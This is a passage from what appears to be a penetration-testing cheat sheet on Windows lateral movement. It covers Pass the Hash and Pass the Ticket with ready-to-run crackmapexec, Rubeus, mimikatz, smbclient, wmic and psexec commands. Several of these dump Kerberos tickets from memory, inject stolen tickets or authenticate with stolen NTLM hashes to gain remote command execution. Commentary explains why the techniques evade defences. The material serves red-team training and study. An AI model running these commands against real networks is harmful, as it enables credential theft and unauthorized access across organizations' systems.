 ```bash
crackmapexec smb 192.168.1.0/24 -u Administrator -H hash -x "whoami"

# Using Rubeus (Pass the Hash with Kerberos)
.\Rubeus.exe asktgt /user:Administrator /domain:domain.local /rc4:hash /ptt
# Then use standard Windows tools

# Pass the Hash with different protocols
## SMB/CIFS
smbclient //192.168.1.10/C$ -U domain.local/Administrator%aad3b435b51404eeaad3b435b51404ee:hash

## WMI
wmic /node:192.168.1.10 /user:domain.local\Administrator /password:aad3b435b51404eeaad3b435b51404ee:hash process call create "cmd.exe"

## RDP (if NLA is disabled)
# Using modified RDP clients that support hash authentication

# Pass the Hash scope and limitations
# Works with: SMB, WMI, PowerShell Remoting, SQL Server, some web applications
# Doesn't work with: Interactive logon, RDP (with NLA), most modern applications

# Why Pass the Hash is effective for lateral movement:
# - No need to crack passwords
# - Works across most Windows services
# - Leverages existing authentication protocols
# - Difficult to prevent without major architecture changes
# - Enables rapid lateral movement through network
```

### **Pass the Ticket**

**What Pass the Ticket is:** Kerberos-based authentication using stolen or forged Kerberos tickets instead of passwords or hashes.

**Why Pass the Ticket is powerful:** Works with Kerberos authentication, can use legitimate tickets, and bypasses some hash-based protections.

```bash
# Pass the Ticket methodology

# Step 1: Extract Kerberos tickets
# Using mimikatz
mimikatz "sekurlsa::tickets /export"         # Export all tickets from memory
mimikatz "kerberos::list"                    # List current tickets

# Using Rubeus
.\Rubeus.exe dump                            # Dump all tickets
.\Rubeus.exe dump /service:krbtgt            # Dump TGTs only
.\Rubeus.exe dump /luid:0x3e4                # Dump tickets for specific logon session

# Step 2: Inject stolen tickets
# Using mimikatz
mimikatz "kerberos::ptt ticket.kirbi"       # Pass single ticket
mimikatz "kerberos::ptc"                     # Pass all .kirbi files in current directory

# Using Rubeus
.\Rubeus.exe ptt /ticket:ticket.kirbi       # Pass specific ticket
.\Rubeus.exe ptt /ticket:base64ticket       # Pass base64-encoded ticket

# Step 3: Use injected tickets
# After ticket injection, use standard Windows tools
dir \\server.domain.local\c$
psexec \\server.domain.local cmd.exe
Enter-PSSession -ComputerName server.domain.local
```